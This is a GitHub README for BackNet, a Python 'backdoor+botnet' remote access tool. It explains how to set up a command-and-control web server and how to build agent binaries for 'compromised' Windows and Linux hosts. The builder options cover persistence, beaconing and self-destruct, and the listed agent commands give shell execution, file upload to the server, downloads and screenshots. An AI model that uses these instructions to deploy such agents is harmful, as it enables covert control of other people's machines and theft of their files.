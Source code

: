 # BackNet
Backdoor+Botnet


![Python](https://alibahaari.github.io/Badge/Python.png)  ![HTML](https://alibahaari.github.io/Badge/HTML.png)   ![JS](https://alibahaari.github.io/Badge/CSS.png)    ![CSS](https://alibahaari.github.io/Badge/JavaScript.png)

[![Build Status](https://travis-ci.com/kaiiyer/backnet.svg?branch=master)](https://travis-ci.com/kaiiyer/backnet)
[![CircleCI](https://circleci.com/gh/kaiiyer/backnet/tree/master.svg?style=svg)](https://circleci.com/gh/kaiiyer/backnet/tree/master)
<a href="https://github.com/kaiiyer/backnet/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/kaiiyer/backnet"></a>
<a href="https://github.com/kaiiyer/backnet/network"><img alt="GitHub forks" src="https://img.shields.io/github/forks/kaiiyer/backnet"></a>
<a href="https://github.com/kaiiyer/backnet/blob/master/LICENSE"><img alt="GitHub license" src="https://img.shields.io/github/license/kaiiyer/backnet"></a>
<a href="https://github.com/kaiiyer/backnet/graphs/contributors" alt="Contributors">
<img src="https://img.shields.io/github/contributors/kaiiyer/backnet" /></a>
```
 ____             _    _   _      _   
| __ )  __ _  ___| | _| \ | | ___| |_ 
|  _ \ / _` |/ __| |/ /  \| |/ _ \ __|
| |_) | (_| | (__|   <| |\  |  __/ |_ 
|____/ \__,_|\___|_|\_\_| \_|\___|\__|

```

BackNet is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

BackNet is made of two main programs:

- A Command aad Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent can be compiled to native executables using **pyinstaller**.

## Setup

Install the Python requirements:

```
pip install -r requirements.txt
```

Initialize the database:

```
cd server
./ares.py initdb
```

In order to compile Windows agents on Linux, setup wine (optional):

```
./wine_setup.sh
```

## Server

Run with the builtin (debug) server:

```
./ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Or run using gunicorn:

```
gunicorn ares:app -b 0.0.0.0:8080 --threads 20
```

The server should now be accessible on http://localhost:8080

## Agent

Run the Python agent (update config.py to suit your needs):

```
cd agent
./agent.py
```

Build a new agent to a standalone binary:

```
./builder.py -p Linux --server http://localhost:8080 -o agent
./agent
``` 

To see a list of supported options, run ./builder.py -h

```
./agent/builder.py -h
usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                  [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                  [--max_failed_connections MAX_FAILED_CONNECTIONS]
                  [--persistent]

Builds an Ares agent.

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
                        Target platform (Windows, Linux).
  --server SERVER       Address of the CnC server (e.g http://localhost:8080).
  -o OUTPUT, --output OUTPUT
                        Output file name.
  --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
  --idle_time IDLE_TIME
                        Inactivity time (in seconds) after which to go idle.
                        In idle mode, the agent pulls commands less often
                        (every <hello_interval> seconds).
  --max_failed_connections MAX_FAILED_CONNECTIONS
                        The agent will self destruct if no contact with the
                        CnC can be made <max_failed_connections> times in a
                        row.
  --persistent          Automatically install the agent on first run.
```

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

python <command|file>
Runs a Python command or local file.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```
